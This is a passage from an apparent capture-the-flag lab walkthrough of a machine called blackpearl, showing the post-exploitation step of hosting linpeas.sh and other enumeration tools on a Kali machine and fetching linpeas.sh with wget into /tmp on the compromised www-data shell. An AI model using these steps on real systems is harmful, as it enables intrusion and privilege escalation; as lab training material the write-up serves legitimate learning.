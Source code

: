 ```
history
    1  sudo -o
    2  sudo -l
    3  history

```

Since we have no privilege, lets download the linpeas. Make your kali as python http server. All files that will be transferred are in /transfer files of the kali/attacker's machine

- In your kali
```
┌──(root㉿kali)-[~]
└─# cd /transfer

┌──(root㉿kali)-[/transfer]
└─# ls
Wise.exe  linpeas.sh  pspy64  winPEASx64.exe
┌──(root㉿kali)-[/transfer]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.64.8 - - [10/Jul/2024 10:45:05] "GET /linpeas.sh HTTP/1.1" 200 -
^X@sc


```

- Then in the tty shell, go to `/tmp` directory to download the linpeas.sh

```
www-data@blackpearl:~/blackpearl.tcm/navigate$ cd /tmp
cd /tmp
www-data@blackpearl:/tmp$ wget http://192.168.64.4/linpeas.sh linpeas.sh
wget http://192.168.64.4/linpeas.sh linpeas.sh
--2024-07-10 13:45:05--  http://192.168.64.4/linpeas.sh
Connecting to 192.168.64.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860337 (840K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 840.17K  --.-KB/s    in 0.01s   

2024-07-10 13:45:05 (69.6 MB/s) - 'linpeas.sh' saved [860337/860337]

--2024-07-10 13:45:05--  http://linpeas.sh/
Resolving linpeas.sh (linpeas.sh)... 172.64.80.1, 2606:4700:130:436c:6f75:6466:6c61:7265
Connecting to linpeas.sh (linpeas.sh)|172.64.80.1|:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://linpeas.sh/ [following]
--2024-07-10 13:45:05--  https://linpeas.sh/
Connecting to linpeas.sh (linpeas.sh)|172.64.80.1|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: 'index.html'

index.html              [ <=>                ] 834.68K  --.-KB/s    in 0.07s   

2024-07-10 13:45:05 (11.3 MB/s) - 'index.html' saved [854710]

FINISHED --2024-07-10 13:45:05--
Total wall clock time: 0.5s
Downloaded: 2 files, 1.6M in 0.08s (19.5 MB/s)
www-data@blackpearl:/tmp$ chmod u+x linpeas.sh  
chmod u+x linpeas.sh

```